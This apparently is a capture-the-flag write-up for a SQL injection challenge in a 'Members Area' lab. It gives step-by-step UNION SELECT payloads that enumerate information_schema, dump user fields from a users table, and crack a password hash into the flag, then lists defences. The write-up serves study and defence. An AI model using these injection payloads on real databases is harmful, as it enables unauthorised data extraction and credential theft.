 # SQL Injection in Members Area

### Tools
SQL injections list from:https://github.com/payloadbox/sql-injection-payload-list

SQL UNION ATACK guide: https://charlesreid1.com/wiki/SQL_Injection/UNION_Attack
Since we are not allowed to use automated tools like sqlmap.

### How to solve it

1. Firt run multiple sql injetion untill something happens using : 
```
 1 UNION SELECT NULL,NULL
```
2. Later on we try multiple commands and we findout some stuff, member 5 has a Flag inside it, but we couldn't found any password or user info .
```
 5 UNION SELECT TABLE_NAME,NULL FROM information_schema.tables--
```
3. With this command we get a list with all schemas and tables and their columns searching for some words we found a schema with all users data like first_name, town and countersign .
```
 5 union select table_name, table_schema from information_schema.columns 
 5 UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.columns-- 
```
4. Now we try to access users table to get users info and we get this  Decrypt this password -> then lower all the char. Sh256 on it and it's good !: 5ff9d0165b4f92b14994e5c685cdce28 cracking it we get :		FortyTwo. and lowering it to fortytwo and using Sh256 we get 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```
 5 union SELECT town, countersign FROM Member_Sql_Injection.users
```
### How to protect
 - use ORM system
 - Input Validation like restricting input size, and if the data is a name it doesnt have to contain numbers  and if the data is a number we could block string from it.
 - Sanitize user input by checking some chars in the input and exchanging it so the SQL doesn't interpeter these.
